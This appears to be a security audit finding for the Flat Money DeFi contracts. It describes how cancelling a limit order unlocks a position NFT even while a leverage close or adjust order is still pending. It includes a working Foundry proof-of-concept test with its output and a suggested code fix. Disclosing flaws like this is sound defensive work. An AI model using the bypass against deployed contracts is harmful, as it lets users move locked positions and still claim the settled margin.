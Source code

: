 Boxy Garnet Wolverine

high

# A user can bypass the locking of tokens in announced orders, by unlocking it in the LimitOrder contract

## Summary
When a user calls `DelayedOrder::announceLeverageAdjust` or `announceLeverageClose`, the position NFT is locked to prevent it from being transferred while there is a pending order. However, the user can bypass this lock by creating a limit order and immediately cancelling it.

## Vulnerability Detail
When creating a limit order via `LimitOrder::announceLimitOrder`, the token is locked.

Then when cancelling the limit order via `LimitOrder::cancelLimitOrder`, the token is unlocked without checking if there is an announced close/adjust order, instead only checking if there is an existing limit order.

```javascript
function cancelLimitOrder(uint256 tokenId) external {
        address positionOwner = _checkPositionOwner(tokenId);
        _checkLimitCloseOrder(tokenId);
        delete _limitOrderClose[tokenId];

        // Unlock the ERC721 position NFT to allow for transfers.
@>      ILeverageModule(vault.moduleAddress(FlatcoinModuleKeys._LEVERAGE_MODULE_KEY))
        .unlock(tokenId);

        emit FlatcoinEvents.OrderCancelled({account: positionOwner, orderType: FlatcoinStructs.OrderType.LimitClose});
    }
```

Because of this, a user who has an announced and pending leverageAdjust/leverageClose order can simply create a limit order, cancel it in the same transaction in order to unlock their position's token.

## Impact
Tokens which are supposed to be locked while orders are pending can be unlocked. This means that they can transfer the token to someone else while a leverageClose/leverageAdjust order is pending. Then once the order is executed, they still receive the remaining settled margin.

## Code Snippet
https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/LimitOrder.sol#L94

## Proof of Concept
Summary:
1. User with a leverage position announces to either adjust or close their position. (This is supposed to lock their token until the order is executed)
2. User creates a limit close order, and then immediately cancels the order.
3. Token is now unlocked, even though the announced order still exists.

To run this PoC:
1. Add the following code to `flatcoin-v1/test/unit` in the audit repo
2. run `forge test --mt test_unlockToken`

<details>
<summary>Code proof (Foundry test)</summary>

```javascript
// SPDX-License-Identifier: SEE LICENSE IN LICENSE
pragma solidity 0.8.18;

import {OrderHelpers} from "../helpers/OrderHelpers.sol";
import {FlatcoinStructs} from "../../src/libraries/FlatcoinStructs.sol";
import "forge-std/console2.sol";

contract UnlockPoC is OrderHelpers {
    function test_unlockToken() public {
        uint256 stableDeposit = 100e18;
        uint256 collateralPrice = 1000e8;

        // Alice provides liquidity
        vm.startPrank(alice);
        announceAndExecuteDeposit({
            traderAccount: alice,
            keeperAccount: keeper,
            depositAmount: stableDeposit,
            oraclePrice: collateralPrice,
            keeperFeeAmount: 0
        });

        // Alice opens position: 10 ETH collateral, 30 ETH additional size (4x leverage)
        uint256 tokenId = announceAndExecuteLeverageOpen({
            traderAccount: alice,
            keeperAccount: keeper,
            margin: 10e18,
            additionalSize: 30e18,
            oraclePrice: collateralPrice,
            keeperFeeAmount: 0
        });
        vm.stopPrank();

        // Now alice sends an adjustment announcement (so her token gets locked)
        announceAdjustLeverage(alice, tokenId, 5e18, 5e18, 0);

        // Assert that her token is now locked
        assertTrue(leverageModProxy.isLocked(tokenId));

        vm.startPrank(alice);
        // Create limit order
        limitOrderProxy.announceLimitOrder({
            tokenId: tokenId,
            priceLowerThreshold: 750e8,
            priceUpperThreshold: 1250e8
        });

        // Cancel limit order
        limitOrderProxy.cancelLimitOrder(tokenId);

        // Get details of alice's leverageAdjust order
        FlatcoinStructs.Order memory adjustOrderCreated = delayedOrderProxy.getAnnouncedOrder(alice);
        FlatcoinStructs.AnnouncedLeverageAdjust memory orderData = abi.decode(adjustOrderCreated.orderData, (FlatcoinStructs.AnnouncedLeverageAdjust));

        // Assert that her token is not locked anymore, but the leverage adjust announced order is still active
        assertFalse(leverageModProxy.isLocked(tokenId));
        assertEq(5e18, orderData.marginAdjustment);
    }
}
```
</details>

<details>
<summary> Console output </summary>

```powershell
Running 1 test for test/unit/UnlockPoC.t.sol:UnlockPoC
[PASS] test_unlockToken() (gas: 1861659)
Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 13.43ms
 
Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```
</details>

## Tool used
Manual Review

## Recommendation
In `DelayedOrder::cancelLimitOrder`, add a check to ensure that there a no announced order leverageAdjust or leverageClose for that tokenId, and if so, don't unlock the token.

```diff
function cancelLimitOrder(uint256 tokenId) external {
+       IDelayedOrder delayedOrder = IDelayedOrder(vault.moduleAddress(FlatcoinModuleKeys.__DELAYED_ORDER_KEY));
        address positionOwner = _checkPositionOwner(tokenId);
        _checkLimitCloseOrder(tokenId);
        delete _limitOrderClose[tokenId];


        // Unlock the ERC721 position NFT to allow for transfers.
+        FlatcoinStructs.OrderType orderType = delayedOrder.getAnnouncedOrder(msg.sender).orderType;
+        if (orderType != FlatcoinStructs.OrderType.LeverageClose && orderType != FlatcoinStructs.OrderType.LeverageAdjust) {
            ILeverageModule(vault.moduleAddress(FlatcoinModuleKeys._LEVERAGE_MODULE_KEY)).unlock(tokenId);
+        }

        emit FlatcoinEvents.OrderCancelled({account: positionOwner, orderType: FlatcoinStructs.OrderType.LimitClose});
    }
```